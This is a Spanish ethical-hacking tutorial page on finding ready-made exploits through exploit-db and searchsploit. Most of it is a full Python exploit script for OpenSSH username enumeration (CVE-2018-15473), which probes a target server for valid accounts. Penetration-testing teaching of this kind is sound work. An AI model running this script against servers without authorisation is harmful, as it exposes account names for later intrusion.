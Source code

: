 # Recursos de Hacking Ético

## ¿Dónde buscar exploits?

Una vez que tenemos información suficiente de un sistema (puertos, software, versiones, vulnerabilidades...) podemos intentar explotar una vulnerabilidad y siempre que podamos evitar escribir nosotros el código para explotarla será mejor. Una de las razones para explotar una vulnerabilidad es poder demostrar que esa vulnerabilidad existe para después dar un reporte a nuestro cliente.

### exploit-db

Uno de los mejores lugares para encontrar exploits es [exploit-db](https://www.exploit-db.com/). Allí podemos buscar por un paquete y una versión en concreto y ver qué exploits ya hay hechos para poder usarlos.

Por ejemplo, vamos a buscar OpenSSH 7.7 que sabemos que tiene ciertas vulnerabilidades que se pueden explotar para obtener una lista de nombre de usuarios. Nos saldrá una lista parecida a esta:

![exploitdb open ssh resultados](./../../img/exploitdbopenssh.png)

Podemos ver que algunos exploits están verificados y otros no, el tipo, el sistema y el autor. Si pinchamos en uno de ellos, por ejemplo, en el segundo, nos da un script hecho en Python para poder probarlo nosotros:

```python
# Exploit: OpenSSH 7.7 - Username Enumeration
# Author: Justin Gardner
# Date: 2018-08-20
# Software: https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/openssh-7.7.tar.gz
# Affected Versions: OpenSSH version < 7.7
# CVE: CVE-2018-15473

###########################################################################
#                ____                    _____ _____ _    _               #
#               / __ \                  / ____/ ____| |  | |              #
#              | |  | |_ __   ___ _ __ | (___| (___ | |__| |              #
#              | |  | | '_ \ / _ \ '_ \ \___ \\___ \|  __  |              #
#              | |__| | |_) |  __/ | | |____) |___) | |  | |              #
#               \____/| .__/ \___|_| |_|_____/_____/|_|  |_|              #
#                     | |               Username Enumeration              #
#                     |_|                                                 #
#                                                                         #
###########################################################################

#!/usr/bin/env python

import argparse
import logging
import paramiko
import multiprocessing
import socket
import sys
import json
# store function we will overwrite to malform the packet
old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

# create custom exception
class BadUsername(Exception):
    def __init__(self):
	pass

# create malicious "add_boolean" function to malform packet
def add_boolean(*args, **kwargs):
    pass

# create function to call when username was invalid
def call_error(*args, **kwargs):
    raise BadUsername()

# create the malicious function to overwrite MSG_SERVICE_ACCEPT handler
def malform_packet(*args, **kwargs):
    old_add_boolean = paramiko.message.Message.add_boolean
    paramiko.message.Message.add_boolean = add_boolean
    result  = old_parse_service_accept(*args, **kwargs)
    #return old add_boolean function so start_client will work again
    paramiko.message.Message.add_boolean = old_add_boolean
    return result

# create function to perform authentication with malformed packet and desired username
def checkUsername(username, tried=0):
	sock = socket.socket()
	sock.connect((args.hostname, args.port))
	# instantiate transport
	transport = paramiko.transport.Transport(sock)
	try:
	    transport.start_client()
	except paramiko.ssh_exception.SSHException:
	    # server was likely flooded, retry up to 3 times
	    transport.close()
	    if tried < 4:
	    	tried += 1
	    	return checkUsername(username, tried)
	    else:
	    	print '[-] Failed to negotiate SSH transport'
	try:
		transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
	except BadUsername:
    		return (username, False)
	except paramiko.ssh_exception.AuthenticationException:
    		return (username, True)
	#Successful auth(?)
	raise Exception("There was an error. Is this the correct version of OpenSSH?")

def exportJSON(results):
	data = {"Valid":[], "Invalid":[]}
	for result in results:
		if result[1] and result[0] not in data['Valid']:
			data['Valid'].append(result[0])
		elif not result[1] and result[0] not in data['Invalid']:
			data['Invalid'].append(result[0])
	return json.dumps(data)

def exportCSV(results):
	final = "Username, Valid\n"
	for result in results:
		final += result[0]+", "+str(result[1])+"\n"
	return final

def exportList(results):
	final = ""
	for result in results:
		if result[1]:
			final+=result[0]+" is a valid user!\n"
		else:
			final+=result[0]+" is not a valid user!\n"
	return final

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = malform_packet
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = call_error

# get rid of paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str, help="The target hostname or ip address")
arg_parser.add_argument('--port', type=int, default=22, help="The target port")
arg_parser.add_argument('--threads', type=int, default=5, help="The number of threads to be used")
arg_parser.add_argument('--outputFile', type=str, help="The output file location")
arg_parser.add_argument('--outputFormat', choices=['list', 'json', 'csv'], default='list', type=str, help="The output file location")
group = arg_parser.add_mutually_exclusive_group(required=True)
group.add_argument('--username', type=str, help="The single username to validate")
group.add_argument('--userList', type=str, help="The list of usernames (one per line) to enumerate through")
args = arg_parser.parse_args()

sock = socket.socket()
try:
    sock.connect((args.hostname, args.port))
    sock.close()
except socket.error:
    print '[-] Connecting to host failed. Please check the specified host and port.'
    sys.exit(1)

if args.username: #single username passed in
	result = checkUsername(args.username)
	if result[1]:
		print result[0]+" is a valid user!"
	else:
		print result[0]+" is not a valid user!"
elif args.userList: #username list passed in
	try:
		f = open(args.userList)
	except IOError:
		print "[-] File doesn't exist or is unreadable."
		sys.exit(3)
	usernames = map(str.strip, f.readlines())
	f.close()
	# map usernames to their respective threads
	pool = multiprocessing.Pool(args.threads)
	results = pool.map(checkUsername, usernames)
	try:
		outputFile = open(args.outputFile, "w")
	except IOError:
		print "[-] Cannot write to outputFile."
		sys.exit(5)
	if args.outputFormat=='list':
		outputFile.writelines(exportList(results))
		print "[+] Results successfully written to " + args.outputFile + " in List form."
	elif args.outputFormat=='json':
		outputFile.writelines(exportJSON(results))
		print "[+] Results successfully written to " + args.outputFile + " in JSON form."
	elif args.outputFormat=='csv':
		outputFile.writelines(exportCSV(results))
		print "[+] Results successfully written to " + args.outputFile + " in CSV form."
	else:
		print "".join(results)
	outputFile.close()
else: # no usernames passed in
	print "[-] No usernames provided to check"
	sys.exit(4)

```

Esto nos ahorra tener que escribir el código nosotros para poder explotar esta vulnerabilidad y encima sabemos que este exploit ya funciona correctamente.

### searchsploit

Existe otra herramienta que viene ya instalada con Kali Linux que nos permite hacer lo mismo pero buscando directamente desde la terminal. Se llama searchsploit y podríamos buscar exploits de la siguiente manera:

```sh
searchsploit openssh -w
```

y nos daría una salida tal que así:

![resultados de ejecutar searchsploit openssh](./../../img/resultadossearchsploit.png)

[Volver al inicio](./../../README.md)
